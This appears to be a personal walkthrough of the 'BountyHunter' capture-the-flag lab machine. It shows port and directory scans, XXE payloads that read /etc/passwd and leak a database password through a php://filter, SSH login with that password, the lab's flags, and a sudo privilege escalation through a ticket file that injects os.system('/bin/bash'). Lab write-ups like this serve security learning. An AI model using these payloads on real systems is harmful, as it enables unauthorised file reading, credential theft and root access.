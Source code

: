 BountyHunter
-------
nmapscan: 

Nmap scan report for 10.10.11.100
Host is up, received conn-refused (0.77s latency).
Scanned at 2021-09-15 18:10:28 EDT for 186s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKlGEKJHQ/zTuLAvcemSaOeKfnvOC4s1Qou1E0o9Z0gWONGE1cVvgk1VxryZn7A0L1htGGQqmFe50002LfPQfmY=
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
http and ssh are open
----
gobuster scan:

http://10.10.11.100/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
http://10.10.11.100/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]   
http://10.10.11.100/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]      
http://10.10.11.100/js    
found on resources README.txt
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
found that there is a XML entitie with burp
read artical about xml https://portswigger.net/web-security/xxe/xml-entities
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
WELL after a while my stupid ass figured it out what was wrong
first we decode the it to url THEN decode it from base 64 ffs
now we can keep going and look for xxe injections
https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
and finally we did it!
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGJ1Z3JlcG9ydCBbCjwhRUxFTUVOVCB0aXRsZSBBTlkgPgo8IUVOVElUWSBzcCBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BCl0%2BCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2BJnNwOzwvdGl0bGU%2BCgkJPGN3ZT4yPC9jd2U%2BCgkJPGN2c3M%2BMzwvY3Zzcz4KCQk8cmV3YXJkPjQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D
managed to do the xxe injection and get /etc/passwd
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

found a user
development:x:1000:1000:Development:/home/development:/bin/bash
let's experiment some more 
from https://github.com/payloadbox/xxe-injection-payload-list
we found a Access control bypass payload 
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]
we tried it on the hidden db.php file and result was 
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
-----
creds:
username: development
password: m19RoAU0hP41A1sTsq6K
-----
now let's try to ssh to the machine
we are in 
usser flag : 06366882e57c78295b08b237f6aeb3b8
----
running sudo -l found that the user can run python3.8 with sudo priv on /opt/skytrain_inc/ticketValidator.py
and a .md ticket file that spawn a shell 
after creating a .md ticket and running the program with sudo we are root!
# Skytrain Inc
## Ticket to sudo
__Ticket Code:__
** 123 +10 == 133 and __import__("os").system("/bin/bash")

---
root flag: 3fb6b7fdd3fd2dc252e6027a43a2cace
----
conclusion/learned

- the website was vul to OWASP attack *XXE*
- user had sudo priv which lead to privesc
------
how to do XXE attacks 